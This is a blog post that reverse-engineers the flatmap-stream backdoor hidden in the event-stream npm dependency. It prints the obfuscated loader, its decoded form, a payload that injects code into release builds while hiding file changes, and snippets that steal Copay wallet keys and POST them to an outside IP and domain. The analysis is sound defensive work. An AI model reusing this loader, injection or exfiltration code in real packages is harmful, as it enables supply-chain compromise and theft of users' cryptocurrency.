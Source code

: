 ```yaml
---
title: Reversing flatmap-stream
date: "2019-01-13"
path: "/reversing-flatmap-stream/"
excerpt: Taking a belated look at the backdoor flatmap-stream package 
titleImage: "./whattosay.png"
tags: ["javascript", "flatmap-stream", "reversing"]
---
```


flatmap-stream was included as a dependency in a widely used NPM library event-stream as a nested*.* It was discovered that [the minified version of flatmap-stream had some extra, obfuscated code](https://github.com/dominictarr/event-stream/issues/116). Let’s reverse the code to try to figure out what exactly what it is doing.


## Prettifying the code
```javascript
!function(){
    try{
        var r=require, t=process;
        function e(r){
            return Buffer.from(r,"hex").toString()
        }
        
        var n=r(e("2e2f746573742f64617461")),
        o=t[e(n[3])][e(n[4])];
        
        if(!o)return;
        
        var u=r(e(n[2]))[e(n[6])](e(n[5]),o),
        a=u.update(n[0],e(n[8]),e(n[9]));
        a+=u.final(e(n[9]));
        
        var f=new module.constructor;
        
        f.paths=module.paths,f[e(n[7])](a,""),f.exports(n[1])
    }
    catch(r){}
}();
```

The first thing of note is the `e` function, which converts hex strings. The payload for this malware is hidden within the these hex strings.

First string:
```javascript
> decode("2e2f746573742f64617461")
'./test/data'
```

This line imports code from the ./test/data folder, which contains 10 more hex obfuscated strings.

```javascript
module.exports=[
    "...truncated...",
    "...truncated...",
    "63727970746f",
    "656e76",
    "6e706d5f7061636b6167655f6465736372697074696f6e",
    "616573323536",
    "6372656174654465636970686572",
    "5f636f6d70696c65",
    "686578",
    "75746638"
];
```

After decoding and unobfuscating the code, we get

```javascript
!function(){
    try{
        var r=require, t=process;
        function decode(r){
            return Buffer.from(r,"hex").toString()
        }
        
        // Get data
        var data = require("./test/data")
        // Get the package description, and exit early if it doesn't exist
        var packageDescription = process.env.npm_package_description
        if (!packageDescription) {
            return;
        }
        
        // Decode the first payload with the npm package description
        var u = require('crypto').createDecipher('aes256', packageDescription)
        var firstPayload = u.update(data[0], 'hex', 'utf8')
        firstPayload += u.final('utf8');
        
        // Build a new module
        var f=new module.constructor;
        
        // Build a new module with the first and second payloads
        f.paths = module.paths,f._compile(firstPayload, ""),f.exports(data[1])
    }
    catch(r){}
}();
```

This bootstrapping script is looking for a specific module name to properly decode the payload. We could write a script to harvest npm package descriptions that have flatmap-stream in their dependency tree. However, as the target package has already be discovered, we’ll cheat. The AES256 decryption key is `A Secure Bitcoin Wallet`, which was/is the description of the copay package.

## The first payload
```javascript
module.exports = function(e) {
    try {
        // Exit if specific args aren't in the command line
        if (!/build\\:.*\\-release/.test(process.argv[2])) return;

        // Same npm pack
        var packageDescription = process.env.npm_package_description,
            r = require("fs"),
            i = "./node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js",

            // Get stats on ReedSolomonDecoder
            // Read file
            n = r.statSync(i),
            c = r.readFileSync(i, "utf8"),
            // Create another cipher
            o = require("crypto").createDecipher("aes256", packageDescription),

            // Decrypt
            s = o.update(e, "hex", "utf8");
        s = "\\n" + (s += o.final("utf8"));

        // Write the payload into ReedSolomonDecoder, and reset utimes
        var a = c.indexOf("\\n/*@@*/");
        0 <= a && (c = c.substr(0, a)), 
        r.writeFileSync(i, c + s, "utf8"), 
        r.utimesSync(i, n.atime, n.mtime), 
        process.on("exit", function() {
            try {
                r.writeFileSync(i, c, "utf8"), r.utimesSync(i, n.atime, n.mtime)
            } catch (e) {}
        })
    } catch (e) {}
};
```

The first payload injects the second payload into release builds of the package. 

## The second payload
After decrypting the second payload with the key listed above, we find the meat and potatoes of the malware. Rather that posting the code for the entire block of code, I’ll post snippets that indicate what this payload does.

### POST to copayapi.host:8080 and 111.90.151.134:8080 with url e and payload n
```javascript
postToUrl("636f7061796170692e686f7374", e, n), 
postToUrl("3131312e39302e3135312e313334", e, n)
```

### Look for wallet files and send the wallet data to hosts above
```javascript
readFromFile("profile", function(e) {
    for (var t in e.credentials) {
        var n = e.credentials[t];
        // If livenet is the network, look in balanceCache files
        "livenet" == n.network && readFromFile("balanceCache-" + n.walletId, 
          function(e) {
            var t = this;
            t.balance = parseFloat(e.balance.split(" ")[0]);
            "btc" == t.coin && t.balance < 100 || 
            "bch" == t.coin && t.balance < 1e3 || 
            // Set the wallet's xPubKey to a global var
            // POST wallet information to url:8080/c, 200 bytes at a time
            (global.CSSMap[t.xPubKey] = !0, chunkAndPost("c", JSON.stringify(t)))
        }.bind(n))
    }
});
```

### Extract wallet keys and send to hosts above
```javascript
var e = require("bitcore-wallet-client/lib/credentials.js");
// Extends getKeysFunc to send all the key information 
// Also sends xPubKey previously set in the global var, and clears it
e.prototype.getKeysFunc = e.prototype.getKeys, e.prototype.getKeys = function(e) {
    var t = this.getKeysFunc(e);
    try {
        global.CSSMap && global.CSSMap[this.xPubKey] && 
        (delete global.CSSMap[this.xPubKey], 
        // POST to url:8080/p, 200 bytes at a time
        chunkAndPost("p", e + "\\t" + this.xPubKey))
    } catch (e) {}
    return t
}
``` 

At this point, it’s fairly clear that this piece of malware steals bitcoins and bitcoin cash. This is a fairly narrow scope attack. Most users of the event-stream package weren’t even affected in the first place.

I realize that this blog post is coming fairly late after the original incident, and most of the detective work has already been performed. However, I wanted to take my own stab at it to see if I could reverse it myself.

